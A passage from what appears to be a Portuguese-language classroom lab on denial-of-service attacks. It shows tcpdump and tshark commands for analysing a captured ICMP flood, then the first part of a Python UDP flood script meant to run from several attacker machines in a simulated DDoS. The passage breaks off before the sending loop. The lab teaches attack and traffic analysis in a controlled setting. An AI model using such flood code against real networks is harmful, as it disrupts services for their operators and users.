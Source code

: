 ### 2.3. Análise do Ataque

No computador monitor, analise o tráfego capturado:

```bash
# Análise básica com tcpdump
sudo tcpdump -r dos_attack.pcap -n

# Estatísticas de protocolo
capinfos dos_attack.pcap

# Análise detalhada com tshark
tshark -r dos_attack.pcap -q -z io,stat,1,"COUNT(icmp)icmp"
```

## Parte 3: Exemplo 2 - Ataque DDoS Simulado (UDP Flood Distribuído)

Este exemplo simula um ataque DDoS real, com múltiplos computadores atacando simultaneamente.

### 3.1. Preparação do Script

Crie o arquivo `udp_flood.py` em todos os computadores atacantes:

```python
#!/usr/bin/env python3

"""
Exemplo educacional de UDP Flood para laboratório DDoS
APENAS PARA FINS EDUCACIONAIS EM AMBIENTE CONTROLADO
"""

import socket
import random
import sys
import time
import os
import argparse

def main(target_ip, target_port, packet_size=1024, duration=30, attack_id=0):
    """
    Executa um ataque UDP Flood
    
    Parâmetros:
        target_ip: IP do alvo
        target_port: Porta do alvo
        packet_size: Tamanho do pacote em bytes
        duration: Duração do ataque em segundos
        attack_id: ID do atacante (para identificação em análise)
    """
    print(f"[*] Atacante #{attack_id} - Iniciando UDP Flood para {target_ip}:{target_port}")
    print(f"[*] Tamanho do pacote: {packet_size} bytes | Duração: {duration} segundos")
    
    try:
        # Cria um socket UDP
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    except socket.error as e:
        print(f"[!] Erro ao criar socket: {e}")
        sys.exit(1)

    # Gera dados para o payload com identificador do atacante
    attack_id_bytes = str(attack_id).encode()
    random_data = os.urandom(packet_size - len(attack_id_bytes))
    payload = attack_id_bytes + random_data

```